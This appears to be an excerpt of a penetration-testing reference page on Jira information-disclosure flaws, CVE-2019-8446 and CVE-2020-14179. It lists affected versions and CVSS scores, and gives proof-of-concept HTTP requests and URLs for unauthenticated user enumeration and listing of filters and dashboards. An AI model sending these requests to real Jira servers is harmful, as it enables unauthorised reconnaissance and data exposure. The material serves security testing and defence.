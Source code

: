 **CVE-2019-8446**

**Version**: `< 8.3.2` (Jira version) **CVSS 3.x**: `5.3 MEDIUM AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N` **Privileges Required**: `None` **POC**:

Copy

```
POST /rest/issueNav/1/issueTable HTTP/1.1
Host: <JIRA>
Connection: Close
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
X-Atlassian-Token: no-check
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

{'jql':'project in projectsLeadByUser("{{randstr}}")'}
```

**POC**:

Copy

```
POST /rest/issueNav/1/issueTable HTTP/1.1
Host: <JIRA>
Connection: Close
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
X-Atlassian-Token: no-check
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

startIndex=0&filterId=...&jql=creator%20<USERNAME>&layoutKey=split-view
```

***

#### Sensitive Information Disclosure <a href="#sensitive-information-disclosure" id="sensitive-information-disclosure"></a>

**CVE-2020-14179**

**Version**: `< 8.5.8`, `8.6.0 <= x < 8.11.1` (Jira version) **CVSS 3.x**: `5.3 MEDIUM AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N` **Privileges Required**: `None` **POC**: `https://<JIRA>/secure/QueryComponent!Default.jspa`

**Unauthenticated Popular Filters**

**Privileges Required**: `None` **POC**:

Copy

```
https://<JIRA>/secure/ManageFilters.jspa?filterView=popular
https://<JIRA>/secure/ManageFilters.jspa?filterView=search
https://<JIRA>/secure/ConfigurePortalPages!default.jspa?view=popular
https://<JIRA>/secure/ManageFilters.jspa?filterView=search&Search=Search&filterView=search&sortColumn=favcount&sortAscending=false
```
